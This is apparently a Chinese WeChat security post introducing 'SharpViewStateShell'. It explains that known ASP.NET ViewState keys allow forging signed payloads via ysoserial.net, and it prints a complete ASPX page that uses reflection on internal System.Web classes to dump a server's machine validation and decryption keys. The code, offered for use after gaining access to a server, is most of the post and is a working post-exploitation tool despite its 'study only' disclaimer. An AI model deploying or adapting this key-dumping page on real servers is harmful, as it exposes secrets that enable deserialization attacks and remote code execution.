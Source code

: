 #  SharpViewStateShell v1.0.2

原创 Rcoil [ RowTeam ](javascript:void\(0\);)

**RowTeam** ![]()

微信号 RowTeam

功能介绍 没有什么好介绍的消遣地

____

___发表于_

收录于合集

  

只要知道 ASP.NET 中关于 ViewState 的 `ValidationKey` 和 `ValidationAlg`
，那么我们根据它反序列化函数中的判断，只需要从 ysoserial.net 扣取对应的签名过程即可。

获取  `ValidationKey` 和 `ValidationAlg` 的脚本为：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script runat="server" language="c#" CODEPAGE="65001">  
        public void GetAutoMachineKeys()    {        var netVersion = Microsoft.Win32.Registry.GetValue("HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\NET Framework Setup\\NDP\\v4\\Full\\", "Version", Microsoft.Win32.RegistryValueKind.ExpandString);         if(netVersion!=null)             Response.Write("<b>NetVersion: </b>" + netVersion);             Response.Write("<br/><hr/>");        // ==========================================================================        var systemWebAsm = System.Reflection.Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");        var machineKeySectionType = systemWebAsm.GetType("System.Web.Configuration.MachineKeySection");        var getApplicationConfigMethod = machineKeySectionType.GetMethod("GetApplicationConfig", System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);        var config = (System.Web.Configuration.MachineKeySection)getApplicationConfigMethod.Invoke(null, new object[0]);        Response.Write("<b>ValidationKey:</b> "+config.ValidationKey);        Response.Write("<br/>");        Response.Write("<b>ValidationAlg:</b> "+ config.Validation);        Response.Write("<br/>");        Response.Write("<b>DecryptionKey:</b> "+ config.DecryptionKey);        Response.Write("<br/>");        Response.Write("<b>DecryptionAlg:</b> "+ config.Decryption);        Response.Write("<br/>");        Response.Write("<b>CompatibilityMode:</b> "+config.CompatibilityMode);         Response.Write("<br/><hr/>");        // ==========================================================================        var typeMachineKeyMasterKeyProvider = systemWebAsm.GetType("System.Web.Security.Cryptography.MachineKeyMasterKeyProvider");        var instance = typeMachineKeyMasterKeyProvider.Assembly.CreateInstance(            typeMachineKeyMasterKeyProvider.FullName, false,            System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic,            null, new object[] { config, null, null, null, null }, null, null);        var validationKey = typeMachineKeyMasterKeyProvider.GetMethod("GetValidationKey").Invoke(instance, new object[0]);        byte[] _validationKey = (byte[])validationKey.GetType().GetMethod("GetKeyMaterial").Invoke(validationKey, new object[0]);        var encryptionKey = typeMachineKeyMasterKeyProvider.GetMethod("GetEncryptionKey").Invoke(instance, new object[0]);        byte[] _decryptionKey = (byte[])validationKey.GetType().GetMethod("GetKeyMaterial").Invoke(encryptionKey, new object[0]);        // ==========================================================================        Response.Write("<br/><b>ASP.NET 4.0 and below:</b><br/>");        byte[] autogenKeys = (byte[])typeof(HttpRuntime).GetField("s_autogenKeys", System.Reflection.BindingFlags.NonPublic | System.Reflection.BindingFlags.Static).GetValue(null);        int validationKeySize = 64;        int decryptionKeySize = 24;        byte[] validationKeyAuto = new byte[validationKeySize];        byte[] decryptionKeyAuto = new byte[decryptionKeySize];        System.Buffer.BlockCopy(autogenKeys, 0, validationKeyAuto, 0, validationKeySize);        System.Buffer.BlockCopy(autogenKeys, validationKeySize, decryptionKeyAuto, 0, decryptionKeySize);        string appName = HttpRuntime.AppDomainAppVirtualPath;        string appId = HttpRuntime.AppDomainAppId;        Response.Write("<br/>");        Response.Write("<b>appName:</b> "+appName);        Response.Write("<br/>");        Response.Write("<b>appId:</b> "+appId);        Response.Write("<br/>");        Response.Write("<b>initial validationKey (not useful for direct use):</b> ");        Response.Write(BitConverter.ToString(validationKeyAuto).Replace("-", string.Empty));        Response.Write("<br/>");        Response.Write("<b>initial decryptionKey (not useful for direct use):</b> ");        Response.Write(BitConverter.ToString(decryptionKeyAuto).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _validationKeyAutoAppSpecific = validationKeyAuto.ToArray();        int dwCode3 = StringComparer.InvariantCultureIgnoreCase.GetHashCode(appName);        _validationKeyAutoAppSpecific[0] = (byte)(dwCode3 & 0xff);        _validationKeyAutoAppSpecific[1] = (byte)((dwCode3 & 0xff00) >> 8);        _validationKeyAutoAppSpecific[2] = (byte)((dwCode3 & 0xff0000) >> 16);        _validationKeyAutoAppSpecific[3] = (byte)((dwCode3 & 0xff000000) >> 24);        Response.Write("<b>App specific ValidationKey (when uses IsolateApps):</b> ");        Response.Write(BitConverter.ToString(_validationKeyAutoAppSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _validationKeyAutoAppIdSpecific = validationKeyAuto.ToArray();        int dwCode4 = StringComparer.InvariantCultureIgnoreCase.GetHashCode(appId);        _validationKeyAutoAppIdSpecific[4] = (byte)(dwCode4 & 0xff);        _validationKeyAutoAppIdSpecific[5] = (byte)((dwCode4 & 0xff00) >> 8);        _validationKeyAutoAppIdSpecific[6] = (byte)((dwCode4 & 0xff0000) >> 16);        _validationKeyAutoAppIdSpecific[7] = (byte)((dwCode4 & 0xff000000) >> 24);        Response.Write("<b>AppId Auto specific ValidationKey (when uses IsolateByAppId):</b> ");        Response.Write(BitConverter.ToString(_validationKeyAutoAppIdSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _decryptionKeyAutoAutoAppSpecific = decryptionKeyAuto.ToArray();        _decryptionKeyAutoAutoAppSpecific[0] = (byte)(dwCode3 & 0xff);        _decryptionKeyAutoAutoAppSpecific[1] = (byte)((dwCode3 & 0xff00) >> 8);        _decryptionKeyAutoAutoAppSpecific[2] = (byte)((dwCode3 & 0xff0000) >> 16);        _decryptionKeyAutoAutoAppSpecific[3] = (byte)((dwCode3 & 0xff000000) >> 24);        Response.Write("<b>App specific DecryptionKey (when uses IsolateApps):</b> ");        Response.Write(BitConverter.ToString(_decryptionKeyAutoAutoAppSpecific).Replace("-", string.Empty));        Response.Write("<br/>");  
            byte[] _decryptionKeyAutoAutoAppIdSpecific = decryptionKeyAuto.ToArray();        _decryptionKeyAutoAutoAppIdSpecific[4] = (byte)(dwCode4 & 0xff);        _decryptionKeyAutoAutoAppIdSpecific[5] = (byte)((dwCode4 & 0xff00) >> 8);        _decryptionKeyAutoAutoAppIdSpecific[6] = (byte)((dwCode4 & 0xff0000) >> 16);        _decryptionKeyAutoAutoAppIdSpecific[7] = (byte)((dwCode4 & 0xff000000) >> 24);        Response.Write("<b>AppId Auto specific DecryptionKey (when uses IsolateByAppId):</b> ");        Response.Write(BitConverter.ToString(_decryptionKeyAutoAutoAppIdSpecific).Replace("-", string.Empty));        Response.Write("<br/><hr/>");        // ==========================================================================        Response.Write("<br/><b>ASP.NET 4.5 and above:</b><br/>");        Response.Write("<br/>");        Response.Write("<b>validationAlg:</b> "+config.Validation);        Response.Write("<br/>");        Response.Write("<b>validationKey:</b> "+BitConverter.ToString(_validationKey).Replace("-", string.Empty));        Response.Write("<br/>");        Response.Write("<b>decryptionAlg:</b> "+config.Decryption);        Response.Write("<br/>");        Response.Write("<b>decryptionKey:</b> "+BitConverter.ToString(_decryptionKey).Replace("-", string.Empty));        Response.Write("<br/><hr/>");    }  
        public void Page_load()    {        Response.ContentEncoding = System.Text.Encoding.Default;        Response.Write("<p style='color:#ff0000;text-align:center;'>获取 .NET 框架的机器密钥</p>");        Response.Write("<p>1. 本程序仅供实验学习 ASP.NET ViewState，请勿违法滥用！</p>");        Response.Write("<p>2. 适用场景：获取 .NET 框架权限后均适用！</p>");        Response.Write("<p>3. 公众号：RowTeam</p>");        Response.Write("<br/><hr/>");        GetAutoMachineKeys();    }</script>

  

全程只靠图。  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230401182314.png)

  

  

效果如下所示：  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230401182315.png)

  

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

